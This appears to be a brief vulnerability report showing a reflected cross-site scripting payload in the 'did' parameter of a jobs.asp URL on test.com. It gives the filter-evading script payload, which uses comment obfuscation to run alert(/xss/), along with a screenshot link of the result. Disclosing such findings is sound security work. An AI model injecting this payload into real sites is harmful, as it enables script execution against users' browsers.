 **URL:**<br/>http://test.com/pages/jobs.asp?did=123456"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>

**Payload**:<br/>`"><\<script/**/>/*test*/alert(/xss/)/*123*/</script>`

**Result:**![](https://i.imgur.com/k1a4A3Q.png)<br/>
